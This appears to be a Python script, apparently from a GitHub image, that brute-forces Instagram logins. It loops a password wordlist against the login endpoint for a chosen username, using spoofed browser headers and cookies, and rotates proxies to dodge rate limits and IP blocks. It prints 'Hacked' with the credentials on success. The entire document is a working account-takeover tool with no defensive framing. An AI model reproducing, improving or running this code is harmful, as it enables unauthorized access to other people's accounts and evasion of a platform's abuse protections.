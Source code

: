 try:
	import requests,random,time,os
	from colorama import Fore
except ModuleNotFoundError:
	os.system('pip install requests')
	os.system('pip install colorama')
	print('\n\t>[+] Done Downloading ')
bad=0
error=0
badproxy=0
block=0
cpu=0
proxy = open('proxy.txt', 'r').read().splitlines()
r = requests.session()
print(Fore.GREEN+"""
[$] Brute Force
 ___ _   _     _        
|_ _| \ | |___| |_ __ _ 
 | ||  \| / __| __/ _` |
 | || |\  \__ \ || (_| |
|___|_| \_|___/\__\__,_|                        
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
"""+Fore.RESET)
print("By @TweakPY - @Filza2")
      #By @TweakPY - @Filza2
user=input('[?] Enter username : ')
print('━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━')
pess = open('pass.txt').read().splitlines()
proxylist = []
while True:
	for pxr in proxy:
		proxylist.append(pxr)
		pxx = str(random.choice(proxylist))  
	for pess in pess:
		headers = {
			'Host': 'www.instagram.com',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
			'Accept': '*/*',
			'Accept-Language': 'ar,en-US;q=0.7,en;q=0.3',
			'Accept-Encoding': 'gzip, deflate, br',
			'X-CSRFToken': '5o7PN96Y9Ln95EnlXN6t0pmCHDqdbect',
			'X-Instagram-AJAX': '1d6caaf37cd2',
			'X-IG-App-ID': '936619743392459',
			'X-ASBD-ID': '437806',
			'X-IG-WWW-Claim': '0',
			'Content-Type': 'application/x-www-form-urlencoded',
			'X-Requested-With': 'XMLHttpRequest',
			'Content-Length': '347',
			'Origin': 'https://www.instagram.com',
			'Connection': 'keep-alive',
			'Referer': 'https://www.instagram.com/accounts/login/',
			'Cookie': 'ig_did=7B796F1F-ADE7-429C-8ADB-9B131663E5E4; datr=2kDRYNWmjctteBSnOqogPrxv; csrftoken=5o7PN96Y9Ln95EnlXN6t0pmCHDqdbect; mid=YNIa4QALAAGoeESFP8axY9NfC9t3; ig_nrcb=1',
			'TE': 'Trailers'}
		data={
				'username':user,
				'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:1613414957:{pess}',
				'queryParams':"{}",
				'optIntoOneTap':'false',
				'stopDeletionNonce ':"",
				'trustedDeviceRecords':"{}"}
		try:
			proxx = {
				'http': f'http://{pxx}',
				'https': f'http://{pxx}'}
			time.sleep(0.1)
			req=requests.post('https://www.instagram.com/accounts/login/ajax/', headers=headers,data=data, proxies=proxx, timeout=3)
			if '"authenticated":true' in req.text:
				print('\n--------------------------------')
				print(f'\nHacked: {user}:{pess} End with {cpu} Attempts')
				cpu+=1
				exit()
			elif req.status_code == "429":
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				block+=1
				cpu+=1
			elif 'ip_block' in req.text:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				block+=1
				cpu+=1
			elif 'Please wait a few minutes before you try again.' in req.text:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				block+=1
				cpu+=1
			elif 'We limit how often you can do certain things on Instagram to protect our community. Tell us if you think we made a mistake.' in req.text:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')                     
				block+=1
				cpu+=1
			elif '"authenticated":false' in req.text:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				bad+=1
				cpu+=1
			elif '"user":true,"authenticated":false' in req.text:                                                       
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				bad+=1
				cpu+=1
			elif '"checkpoint_url"' in req.text:
				print('\nSECURE')
				break
			elif 'Sorry, there was a problem with your request.' in req.text:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				error+=1
				cpu+=1
			else:
				print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
				error+=1
				cpu+=1
		except requests.exceptions.ConnectionError:
			pass
			print(f"\rAttempts [{cpu}] Bad [{bad}] Error [{error}] Bad Proxy [{badproxy}] Blocked [{block}] {user}:{pess}",end='')
			badproxy+=1
			cpu+=1
